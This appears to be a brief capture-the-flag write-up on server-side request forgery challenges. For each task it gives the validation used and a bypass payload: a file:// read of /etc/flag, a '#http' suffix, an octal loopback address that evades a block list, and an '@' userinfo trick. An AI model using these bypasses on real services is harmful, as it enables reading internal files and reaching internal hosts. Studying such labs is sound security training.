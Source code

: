 ## Base idea:
Try different input to learn what validation is used. After we found out how to bypass it.

## Tasks:

### Simple SSRF
no filter

urlopen(input)

solution: file:///etc/flag

### SSRF v2
validation:
if 'http' in input_str:
    input = "http://" + input
urlopen(input)

solution file:///etc/flag#http

### SSRF v3
function: HTTPConnectionPool
=>  we can't use "file://"
+ we can't use "127.0.0.1", because we have black-list filter

solution: http://017700000001:8000

### VK Checker
solution http://vk.com@127.0.0.1:8000#vk.com/safds

#### Resources:
https://portswigger.net/web-security/ssrf